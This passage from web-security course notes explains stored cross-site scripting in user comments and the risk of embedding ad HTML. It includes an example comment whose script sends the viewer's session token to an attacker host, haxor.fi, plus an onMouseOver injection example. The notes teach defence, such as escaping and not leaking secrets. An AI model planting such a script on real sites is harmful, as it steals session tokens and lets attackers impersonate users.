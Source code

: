 ```
<script>
    fetch('http://haxor.fi/save?token=' + window.session_token).then(...);
</script>

Great product! A++++
```

If you insert that text directly into the web page, every user views the page
will have the script run, and then our dastardly Finnish hacker has all our
session tokens and can impersonate other users.

This attack vector was used to create self-replicating comments on both MySpace
and Twitter.

Web frameworks like Phoenix try to protect you from this by automatically
escaping any text you include in your pages, but this is worth considering
whenever you accept and display user inputs.

Allowing people to input HTML for text formatting is especially difficult, since
*any* HTML tag can include JavaScript in several ways.

```
<p onMouseOver="...">Great Product. A++++</p>
```

In general, we don't want to allow *anyone* to inject arbitrary HTML content
into our pages. This can be user comments, but another common case is
advertisements. A standard mechanism for displaying ads is to request HTML
and/or JavaScript fragments and embed them in the web page. This allows the ad
provider to perform an XSS attack.


## In browser JavaScript security

JavaScript code running in the user's browser is less controllable than server
side code - the user can control it as well - but that code can still manage
secrets like the user's session token. We give that information to the user, and
the user can do whatever they want with it.

But that secret is still a secret between us and that user. We don't want it to
leak to third parties.

JavaScript code running in the user's browser when visiting our site also has a
level of access that random code running elsewhere doesn't have. It can perform
HTTP requests to our site without worrying about cross-site origin rules.

So our JS code still needs to have security properties:

 - We need to avoid XSS issues as described above.
 - We need to make sure that we don't leak user secrets to third party sites.

For example, if we have a authentication token in our local state, we shouldn't
post our entire local state to an external API.

## SQL Injection
